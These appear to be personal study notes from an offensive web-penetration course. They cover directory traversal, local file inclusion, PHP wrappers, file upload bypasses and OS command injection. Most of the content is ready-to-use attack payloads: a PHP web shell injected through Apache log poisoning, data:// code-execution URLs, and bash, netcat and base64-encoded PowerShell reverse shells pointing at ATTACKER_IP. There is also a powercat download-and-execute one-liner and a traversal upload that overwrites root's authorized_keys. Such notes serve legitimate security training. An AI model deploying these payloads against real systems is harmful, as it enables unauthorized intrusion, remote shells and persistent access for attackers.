 ## Section 9.1 Directory Traversal
### Subsection 9.1.2 Identifying and Exploiting Directory Traversals
- Most websites are run in a subdirectory of a low privileged user called www-data
	- /var/www/html/
	- C:\inetpub\wwwroot
- SSH keys can usually be located in ~/.ssh/
- To SSH using a private key file do the following 
```
sudo chmod 400 KEY_FILE
```
```
rm ~/.ssh/known_hosts
```
```
ssh -i KEY_FILE user@IP
```
## Section 9.2 File Inclusion Vulnerabilities
### Subsection 9.2.1 Local File Inclusion (LFI)
- One way to achieve LFI is to include executable code in a local file like access.log at /var/log/apache2/ then browsing to the page which will execute our code
- LFI can be used to get a reverse shell or to add our authorized key to the authorized keys file 
- to generate an authorized key 
- Quick php one-liner for LFI or as a stand-alone file for web app cmd access
```
<?php echo system($_GET['cmd']; ?>)
```
- Sent the following as the user-agent in the header
	- This was saved to ../../../../../../../../../var/log/apache2/access.log
	- Now when this file is called wiht &cmd=COMMAND the output comes back with the log file information and the cmd output based on where it has been stored in the logs 
	- Did have to use url encoding for spaces doing this
```
# Header
User-Agent: <?php echo system($_GET['cmd']; ?>)
# url call 
http://IP/../../../../../../../../../var/log/apache2/access.log&cmd=whoami
```
- Bash one-liner for LFI (encode special characters with url encoding)
```
bash -c "bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1"
```
### Subsection 9.2.2 PHP Wrappers
- Help to get the code via curl that is not in the webpage when it curled
- allow_url_include setting needs to be enabled in order to get code execution
- php wrappers from the course 
	- php://filter
		- displays the contents of files with or without encodings like ROT13 or Base64
		- helps analyze the web application's logic and look for sensitive information
```
http://IP/index.php?page=php://filter/resource=admin.php
http://IP/index.php?page=php://filter/convert.base64-encode/resource=admin.php
```
- php://data 
	- used to achieve code execution
	- used to embed data elements as plaintext or base64-encoded data running in the web application's code
	- this is an alternative when you cannot poison a local file with PHP code
```
http://IP/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
http://IP/index.php?page=data://text/plain;base64,BASE64_DATA&cmd=ls
```
## Section 9.3 File Upload Vulnerabilities
### Subsection 9.3.1 Using Executable Files
- PHP webshells that can be used for RFI can be found in 
```
/usr/share/webshells/php/
```
- .php files can be blocked on upload.  
	- by changing the extension to .PHp or .pHP or .phps or .php7 you may be able to bypass the filter
- Execution on a windows system
	- One-liner in powershell base64 to bypass a filter and get a reverse shell
```
$Text = '$client = New-Object System.Net.Sockets.TCPCient("SERVER_ADDRESS",SERVER_PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
```
```
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
```
```
$EncodedText = [Convert]::ToBase64String($Bytes)
```
```
$EncodedText
```
- Copy and paste the output of $EncodedText as the command to get the reverse shell
### Subsection 9.3.2 Using Non-Executable Files
- This includes replacing the ~/.ssh/authorized_keys file with your authorized key
- To generate a key do the following
```
ssh-keygen
```
- filename can be anything but fileup works well
```
cat fileup.pub > authorized_keys
```
- In the burp or curl request make sure the filename goes to the correct folder such as 
```
filename="../../../../../../../root/.ssh/authorized_keys"
```
## Section 9.4 Command Injection
## Section 9.4.1 OS Command Injection
- To determine if cmd or powershell is being executed on a windows machine run the following command to see what interpreter is processing it
```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```
- One-liner to run powercat from download
```
IEX(New-Object System.Net.WebClient).DownloadString("SERVER_ADDRESS/powercat.ps1");powercat -c LHOST -p LPORT -e powershell
```
- nc reverse shell from victim machine
```
# URL encode as needed
nc -e /bin/bash ATTACKER_IP ATTACKER_PORT
```
## Exercises To-Do

- [ ] 2.1.1 (page 20)